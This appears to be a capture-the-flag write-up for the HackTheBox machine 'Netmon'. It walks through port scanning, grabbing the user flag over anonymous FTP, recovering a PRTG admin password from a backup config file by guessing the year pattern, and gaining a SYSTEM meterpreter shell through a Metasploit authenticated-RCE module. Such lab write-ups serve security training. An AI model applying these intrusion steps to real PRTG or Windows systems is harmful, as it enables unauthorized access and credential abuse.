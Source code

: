 
# Netmon - HackTheBox

I'm going through NetSec's Trophy Room for fun and this box showed me how important it is to think outside of the box. Or in this case, like a lazy admin!

# Enumeration

I started off by running Rustscan on the target, then adding the IP into my /etc/hosts file.

```bash
Open 10.10.10.152:21
Open 10.10.10.152:80
Open 10.10.10.152:135
Open 10.10.10.152:139
Open 10.10.10.152:445
Open 10.10.10.152:5985
Open 10.10.10.152:47001
Open 10.10.10.152:49664
Open 10.10.10.152:49665
Open 10.10.10.152:49666
Open 10.10.10.152:49667
Open 10.10.10.152:49668
Open 10.10.10.152:49669
```

Next, an Nmap Scan.

```bash
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-09-01T18:53:12
|_  start_date: 2022-09-01T18:48:00
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
```

# User Flag

FTP had anonymous access allowed. So logging in as an anonymous user and browsing to the Public user rewards you with the user flag.

```bash
 manwithaplan@manwithabox  /media/sf_manwithaplan/HTB/netmon  ftp netmon.htb
Connected to netmon.htb.
220 Microsoft FTP Service
Name (netmon.htb:manwithaplan): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Use
550 The system cannot find the file specified. 
ftp> cd Users
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  11:44PM       <DIR>          Administrator
02-03-19  12:35AM       <DIR>          Public
226 Transfer complete.
ftp> cd Public
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
09-01-22  02:48PM                   34 user.txt
07-16-16  09:18AM       <DIR>          Videos
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
34 bytes received in 0.06 secs (0.5649 kB/s)
ftp> exit
221 Goodbye.
 manwithaplan@manwithabox  /media/sf_manwithaplan/HTB/netmon  cat user.txt 
[REDACTED]
 manwithaplan@manwithabox  /media/sf_manwithaplan/HTB/netmon  
```

# Root Flag

## Getting admin creds

There is a website running on port 80.

![PRTG Network Monitor](https://i.gyazo.com/0dc803cbd9f2852ecd223bc55083cc60.png)

Default creds (prtgadmin:prtgadmin) didnt work but [this](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) reddit post led me to this directory:

```bash
/ProgramData/Paessler/PRTG Network Monitor
```

In that folder, credentials can be found in PRTG Confguration.old.bak

```xml
<!-- User: prtgadmin -->
    PrTg@dmin2018
```

However these creds didnt work.

Embarrasingly I needed to use the official guide, and instead of PrTg@dmin2018, PrTg@dmin**2019** was the correct password.

Always check for those kinds of patterns as lazy admins passwords change with months/years.

## Popping a revshell (Easy Way)

Conviniently, there is a metasploit module for RCE

```bash
exploit/windows/http/prtg_authenticated_rce
```

The account running PRTG was already authenticated as SYSTEM so the flag was trivial.

```powershell
meterpreter > cd Administrator
meterpreter > ls
Listing: C:\Users\Administrator
===============================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2019-02-03 06:08:34 -0600  AppData
040777/rwxrwxrwx  0       dir   2019-02-03 06:08:34 -0600  Application Data
040555/r-xr-xr-x  0       dir   2019-02-03 06:08:38 -0600  Contacts
040777/rwxrwxrwx  0       dir   2019-02-03 06:08:34 -0600  Cookies
040555/r-xr-xr-x  0       dir   2019-02-02 22:35:23 -0600  Desktop
040555/r-xr-xr-x  4096    dir   2019-02-03 06:08:39 -0600  Documents
040555/r-xr-xr-x  0       dir   2019-02-03 06:08:39 -0600  Downloads
040555/r-xr-xr-x  0       dir   2019-02-03 06:08:38 -0600  Favorites
040555/r-xr-xr-x  0       dir   2019-02-03 06:08:39 -0600  Links
040777/rwxrwxrwx  0       dir   2019-02-03 06:08:34 -0600  Local Settings
040555/r-xr-xr-x  0       dir   2019-02-03 06:08:39 -0600  Music
040777/rwxrwxrwx  0       dir   2019-02-03 06:08:34 -0600  My Documents
100666/rw-rw-rw-  262144  fil   2022-09-01 14:13:18 -0500  NTUSER.DAT
100666/rw-rw-rw-  65536   fil   2019-02-03 06:08:35 -0600  NTUSER.DAT{4c7e0ce3-af90-11e6-b29b-95ada9568386}.TM.blf
100666/rw-rw-rw-  524288  fil   2019-02-03 06:08:35 -0600  NTUSER.DAT{4c7e0ce3-af90-11e6-b29b-95ada9568386}.TMContainer00000000000000000001.regtrans-ms
100666/rw-rw-rw-  524288  fil   2019-02-03 06:08:35 -0600  NTUSER.DAT{4c7e0ce3-af90-11e6-b29b-95ada9568386}.TMContainer00000000000000000002.regtrans-ms
040777/rwxrwxrwx  0       dir   2019-02-03 06:08:34 -0600  NetHood
040555/r-xr-xr-x  0       dir   2019-02-03 06:08:38 -0600  Pictures
040777/rwxrwxrwx  0       dir   2019-02-03 06:08:34 -0600  PrintHood
040777/rwxrwxrwx  0       dir   2019-02-03 06:08:34 -0600  Recent
040555/r-xr-xr-x  0       dir   2019-02-03 06:08:39 -0600  Saved Games
040555/r-xr-xr-x  0       dir   2019-02-03 06:08:39 -0600  Searches
040777/rwxrwxrwx  0       dir   2019-02-03 06:08:34 -0600  SendTo
040777/rwxrwxrwx  0       dir   2019-02-03 06:08:34 -0600  Start Menu
040777/rwxrwxrwx  0       dir   2019-02-03 06:08:34 -0600  Templates
040555/r-xr-xr-x  0       dir   2019-02-25 21:06:13 -0600  Videos
100666/rw-rw-rw-  98304   fil   2019-02-03 06:08:34 -0600  ntuser.dat.LOG1
100666/rw-rw-rw-  114688  fil   2019-02-03 06:08:34 -0600  ntuser.dat.LOG2
100666/rw-rw-rw-  20      fil   2019-02-03 06:08:34 -0600  ntuser.ini

meterpreter > cd Desktop
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-02-03 06:08:39 -0600  desktop.ini
100444/r--r--r--  34    fil   2022-09-01 13:48:44 -0500  root.txt

meterpreter > cat root.txt
[REDACTED]
```
